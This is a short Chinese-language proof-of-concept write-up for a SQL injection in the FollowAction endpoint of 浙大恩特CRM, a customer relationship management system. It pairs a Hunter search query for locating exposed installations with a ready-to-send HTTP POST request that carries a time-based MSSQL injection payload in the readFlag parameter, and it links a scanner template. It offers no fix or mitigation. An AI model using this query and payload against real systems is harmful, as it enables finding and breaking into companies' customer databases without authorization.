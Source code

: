 # 浙大恩特CRM FollowAction存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。浙大恩特CRM FollowAction存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感数据。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="浙大恩特 CRM"`
+ 特征

![1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a.png](./img/m19IpcWC3G3B53u5/1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a-838671.png)

# 四、漏洞复现
```plain
POST /entsoft/FollowAction.entphone;.js HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Length: 72
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

method=updreadFlg&trk_id=a&readFlag=a%27;WAITFOR%20DELAY%20%270:0:3%27--
```

![1708235641244-6376c3c0-87fe-47a6-bad0-3b0b2f987767.png](./img/m19IpcWC3G3B53u5/1708235641244-6376c3c0-87fe-47a6-bad0-3b0b2f987767-860254.png)

[浙大恩特客户资源管理系统-followaction-entphone--sql注入.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222145263-d49b26ed-4e41-4352-b174-82a892d4332e.yaml)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zm2llrx2u25ytzk3>